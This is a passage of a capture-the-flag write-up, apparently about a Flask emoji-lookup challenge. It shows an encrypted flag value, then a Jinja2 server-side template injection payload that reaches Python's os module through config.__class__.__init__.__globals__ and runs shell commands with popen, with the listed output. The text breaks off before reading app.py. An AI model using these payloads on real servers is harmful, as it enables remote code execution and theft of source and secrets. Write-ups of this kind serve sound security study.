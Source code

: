 If we take a look at it we find an item called 'flag' but it looks like it is encrypted in some way:

```python
('flag', 'HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*')
```

## Decrypting the flag

Decrypting the flag was easier said then done. I tried several algorithms but none resulted in any usefull output and it doesn't look like the output of any common encryption algorithm.

This is when I started to try to get the source of the server so we can see how it gets and/or creates the flag. To get the source we first need arbitrary code execution.

### Arbitrary Code Execution (ACE)

The easiest way to get ACE is using the `os` module in python. To use it, the server has to have it imported though.

We can find the `os` module in the `globals` dictionary, which, in turn, can be found in the `__init__` function of the `Config` class. To get to it we can use the following path:

```python
config.__class__.__init__.__globals__["os"]
```

If we enter this as the input but within brackets, we get the following output:

```text
<module 'os' from '/usr/local/lib/python3.7/os.py'>
```

_Note: if the `os` module wouldn't have been there, you could look for another module in `{{config.__class__.__init__.__globals__}}`_

This means our exploit works and we can use it to execute commands. To do this, we can use the `popen` function like so:

```python
config.__class__.__init__.__globals__['os'].popen('ls').read()
```

### Grabbing the file

If we use the above code as the input, we get the following return message:

```text
You entered an unknown emoji: __pycache__
app.py
requirements.txt
serve.sh
static
supervisord.pid
templates
```

The source of the server is probably `app.py` as it's the default for flask applications. Let's `cat` it:
